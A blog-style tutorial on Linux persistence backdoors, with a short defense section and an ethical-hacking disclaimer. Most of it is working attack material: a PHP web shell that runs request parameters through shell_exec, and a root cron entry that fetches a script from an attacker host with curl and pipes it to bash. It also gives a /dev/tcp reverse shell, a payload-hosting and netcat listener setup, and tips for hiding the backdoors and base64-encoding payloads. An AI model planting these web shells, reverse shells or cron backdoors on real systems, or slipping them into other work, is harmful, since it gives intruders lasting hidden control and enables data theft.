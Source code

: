 ```yaml
---
title : "Linux Backdoors"
date : 2025-08-16 
layout : post
categories : [BACKDOOR]
tags : [PHP,CRONJOB,BACKDOOR]
author : jana
---
```


# PHP and Cron Job Backdoors: Gaining Persistent Access Like a Pro

In this post, we’ll dive into two powerful techniques attackers use to maintain access to a compromised Linux server: **PHP backdoors** and **cron job backdoors**. These methods are often used in **post-exploitation** scenarios to establish **persistence**. Let's break them down clearly, like a mentor would.

---

## 🔍 What Is a Backdoor?

A **backdoor** is a hidden way to regain access to a system after the initial exploit. Once an attacker gains access (especially root access), they may leave a small script or schedule a task to reconnect to them — so even if you reboot the server or patch the vulnerability, they can come back in.

---

## 🐘 PHP Backdoors

A **PHP backdoor** is a small PHP script that allows an attacker to execute system commands via a web browser.

### ✅ Example Code:

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

## 🔧 How It Works:

- This script checks for a cmd parameter in the request.

- It uses **shell_exec()** to run any system command sent via the browser.

- Output is displayed in **<pre>** tags for readability.

## 🌐 Usage:

- If the file is saved as shell.php in  `/var/www/html` , an attacker can do:

```bash
http://<target-ip>/shell.php?cmd=whoami
```
## Other useful examples:

- `ls` – list files

- `cat /etc/passwd` – read sensitive files

- `nc` – establish reverse shells

## 🕵️ How Attackers Hide It:

- Inject the backdoor into an existing file like index.php.

- Change cmd to a less suspicious name (e.g., x1 or auth_key).

- Store the file in an obscure folder (e.g., /var/www/html/img/).

## ⏰ Cron Job Backdoors

- A cron job is a scheduled task. Attackers can schedule a reverse shell to run every minute, ensuring they maintain access.

## ✅ Example Cron Entry:

```
* * * * * root curl http://<attacker-ip>:8080/shell | bash
```
### This does the following:

Runs every minute (* * * * *)

As the root user

Downloads a script from the attacker's server using curl

Pipes it into bash for execution

## 🔥 Shell Script Example:

- On the attacker’s server (hosted at port 8080), the shell file contains:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1
```
## 🛠️ Setup:

Host the shell:

```bash
python3 -m http.server 8080
```

- Start listening for a connection:

```bash
nc -nvlp <port>
```
- Wait for the cron to trigger.

## ⚠️ Why It's Risky:

- Visible in /etc/crontab

- Easily detected by sysadmins

- Logs may show repeated traffic to external IPs

## 🕶️ Making It Sneakier

Attackers may:

- Use user-level crontabs via `crontab -e` instead of global `/etc/crontab`

- Base64-encode the reverse shell to avoid detection:

```bash
echo "<encoded_script>" | base64 -d | bash
```

- Name scripts something innocuous like  `/update-check` or `/sys-patch`

## 🧠 Final Thoughts
- Both PHP and cron job backdoors are powerful tools in an attacker's toolkit. As an ethical hacker or security professional, understanding how these work is essential — both for offensive use (in labs/CTFs) and for detecting/removing them during incident response.

## 🛡️ Tips for Defense:

- Monitor for unexpected PHP files or parameters in web root.

- Regularly audit /etc/crontab and user crontabs.

- Monitor outbound connections from critical servers.

- Use tools like auditd, chkrootkit, or rkhunter.

### ⚠️ Disclaimer: This post is for educational and ethical hacking purposes only. Always have permission before testing any technique on a live system.
